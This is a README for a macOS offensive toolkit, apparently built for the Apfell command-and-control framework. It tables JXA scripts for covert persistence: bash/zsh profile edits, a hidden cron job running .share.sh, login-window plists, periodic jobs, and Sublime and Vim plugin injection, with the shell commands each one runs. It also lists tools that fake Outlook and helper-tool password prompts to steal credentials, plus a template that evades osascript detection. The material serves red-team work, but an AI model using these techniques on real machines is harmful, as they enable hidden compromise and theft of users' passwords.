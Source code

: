 # PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />

# Usage
* In Apfell :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **BashProfile** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | js_importcall BashProfile('osascript -l JavaScript -e ...') |  $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br />  $HOME/.bash_profile or  $HOME/.zshenv| chmod +x $HOME/.security/apple.sh <br /> <br /> chmod +x $HOME/.security/persist.sh <br /> <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | js_importcall CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br /> chmod +x "$HOME/Public/Drop\ Box/.share.sh  <br /> <br /> sh -c (Persistence Action)|
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  js_importcall FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | js_importcall LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh | chmod +x /Users/Shared/.security/test.sh & <br />  <br /> sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | js_importcall PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | chmod +x /etc/periodic/daily/111.clean-hist & <br />  <br /> sh -c (Persistence Action)|
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|js_importcall SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications//Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed open the opening of Sublime. <br />  Persistence executes upon Sublime opening. | js_importcall SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed open the opening of vim. <br />  Persistence executes upon vim opening. | js_importcall VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| js_importcall DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | js_importcall PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | js_importcall OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
